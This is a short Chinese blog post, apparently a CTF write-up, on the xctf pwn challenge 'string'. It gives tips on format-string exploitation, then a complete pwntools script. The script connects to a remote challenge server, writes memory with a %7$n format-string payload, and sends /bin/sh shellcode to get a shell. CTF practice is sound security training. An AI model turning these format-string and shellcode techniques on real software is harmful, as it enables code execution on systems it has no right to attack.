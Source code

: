 ```yaml
---
title: FormatString 
tags: [ctf-pwn]
date: 2023-10-23 13:48:00
categories: [ctf-pwn]
excerpt: xctf-pwn string
---
```


![](/img/FormatString/1.png)

#### xctf string

简单的格式化字符串

这道题目需要注意的点包括

1. 题目中用%x打印出来的地址，可以直接用`int(...,16)`来接收，不要用ljust那一套。。。（-_-||

2. 在利用格式化字符串漏洞的时候，如果用`p64(addr)  + %n(或者%p)...`时，要先保证addr没有`\0`

   就像这道题，我一开始就非得不用它那个%ld输入要写入的地址，就非要把x[0]的地址和后面那一串一起写进去，后果就是print(format)时候根本不会打印aaaa.....和%n，因为地址里有\0，直接停止了😭还在那看了好半天是不是地址的格式问题

3. `shellcraft.sh`用之前**一定要先指定平台 **` context(arch='amd64', os='linux')`

   

exp:

```python
from pwn import *

#p = process("./1d3c852354df4609bf8e56fe8e9df316")
p = remote("61.147.171.105", 58702)

context(arch='amd64', os='linux')

e = ELF("./1d3c852354df4609bf8e56fe8e9df316")

#gdb.attach(p, "b *0x400d36")

p.recvuntil(b"secret[0] is ")
x0 = int(p.recvuntil(b"\n")[:-1], 16)
print(hex(x0))

p.recvuntil(b"What should your character's name be:\n")
p.sendline(b"123")

p.recvuntil(b"So, where you will go?east or up?:")
p.sendline(b"east")
p.recvuntil(b"go into there(1), or leave(0)?:\n")
p.sendline(b"1")

p.recvuntil(b"\'Give me an address\'\n")
p.sendline(str(x0))

p.recvuntil(b"And, you wish is:\n")

payload = b'a' * 85 + b"%7$n"
#payload = b'aaaaaaaa' + b"%p%p%p%p-%p%p%p%p-%p%p%p%p-%p%p%p%p"
p.sendline(payload)

p.recvuntil(b"That's sound terrible! you meet final boss!but you level is ONE!\n")
p.recvuntil(b"Wizard: I will help you! USE YOU SPELL\n")

#shellcode = '\x6a\x3b\x58\x99\x52\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x53\x54\x5f\x52\x57\x54\x5e\x0f\x05'

shellcode = asm(shellcraft.sh())


p.sendline(shellcode)

p.interactive()
```


